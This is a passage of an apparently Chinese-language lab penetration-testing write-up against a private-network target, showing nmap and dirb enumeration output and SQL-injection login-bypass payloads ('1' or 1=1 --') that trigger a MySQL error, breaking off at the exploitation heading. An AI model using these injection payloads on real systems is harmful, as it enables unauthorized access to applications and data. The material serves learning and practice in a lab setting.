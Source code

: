 ```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 01:12 EST
Nmap scan report for 192.168.244.129
Host is up (0.0020s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
3128/tcp open     http-proxy Squid http proxy 3.1.20
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.13 seconds
```

### 目录扫描

```shell
# feroxbuster -u http://192.168.244.129
dirb http://192.168.244.129
```

```text
---- Scanning URL: http://192.168.244.129/ ----
+ http://192.168.244.129/background (CODE:200|SIZE:2572609)                                                   
+ http://192.168.244.129/cgi-bin/ (CODE:403|SIZE:291)                                                         
+ http://192.168.244.129/index (CODE:200|SIZE:1136)                                                           
+ http://192.168.244.129/index.html (CODE:200|SIZE:1136)                                                      
+ http://192.168.244.129/server-status (CODE:403|SIZE:296)      
```

### wappalyzer

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608783.png" alt="image-20240221142116948" style="zoom:33%;" />

### 万能密码

```sql
1' or '1'='1
# Login Failed
1' or 1=1 --
# There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11 ' and password='passwd'' at line 1]
```

有错误回显，可以尝试利用！

## 漏洞利用

### sql注入
